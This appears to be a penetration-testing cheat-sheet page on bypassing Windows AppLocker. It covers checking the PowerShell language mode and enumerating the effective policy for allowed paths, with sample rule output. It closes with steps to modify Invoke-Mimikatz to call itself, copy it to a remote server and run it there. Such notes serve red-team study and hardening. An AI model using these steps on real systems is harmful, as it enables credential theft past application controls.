 # Bypassing AppLocker
If you get errors when running powershell commands relating to language modes, this will be due to AppLocker running in Constrained Language Mode.

 - Check the AppLocker Language mode
`$ExecutionContext.SessionState.LanguageMode`

There may be elements within the AppLocker policy that show weak spots and these can be used to bypass it.

 - Enumerate the AppLocker policy
`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`
 - Look for sections that state the Action = Allow and the PathConditions surrounding this policy.
 - Conversely look for paths that might be blocked, which might highlight areas that are inherently allowed.

e.g.
```
PublisherConditions : {*\O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US\*,*}

PublisherExceptions : {}

PathExceptions      : {}

HashExceptions      : {}

Id                  : 5a9340f3-f6a7-4892-84ac-0fffd51d9584

Name                : Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US

Description         :

UserOrGroupSid      : S-1-1-0

Action              : Allow

PublisherConditions : {*\O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US\*,*}

PublisherExceptions : {}

PathExceptions      : {}

HashExceptions      : {}

Id                  : 10541a9a-69a9-44e2-a2da-5538234e1ebc

Name                : Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US

Description         :

UserOrGroupSid      : S-1-1-0

Action              : Allow

PathConditions      : {%PROGRAMFILES%\*}

PathExceptions      : {}

PublisherExceptions : {}

HashExceptions      : {}

Id                  : 06dce67b-934c-454f-a263-2515c8796a5d

Name                : (Default Rule) All scripts located in the Program Files folder

Description         : Allows members of the Everyone group to run scripts that are located in the Program Files folder.

UserOrGroupSid      : S-1-1-0

Action              : Allow

PathConditions      : {%WINDIR%\*}

PathExceptions      : {}

PublisherExceptions : {}

HashExceptions      : {}

Id                  : 9428c672-5fc3-47f4-808a-a0011f36dd2c

Name                : (Default Rule) All scripts located in the Windows folder

Description         : Allows members of the Everyone group to run scripts that are located in the Windows folder.

UserOrGroupSid      : S-1-1-0

Action              : Allow
```

You may also run into difficulties loading modules with dot sourcing with AppLocker in play.
e.g.
`. .\Invoke-Mimikatz.ps1`

You can edit the ps1 module and add a line at the bottom to call itself.
e.g. open invoke-mimikatz.ps1, browse to the end of the file and add a line
`Invoke-Mimikatz`

Copy that script to the remote machine
`Copy-Item Invoke-Mimikatz-modified.ps1 \\<servername\path `
Now in a remote session on the machine you can load the module without using dot sourcing, effectively importing the module and running it in one go.
`.\Invoke-Mimikatz-modified.ps1`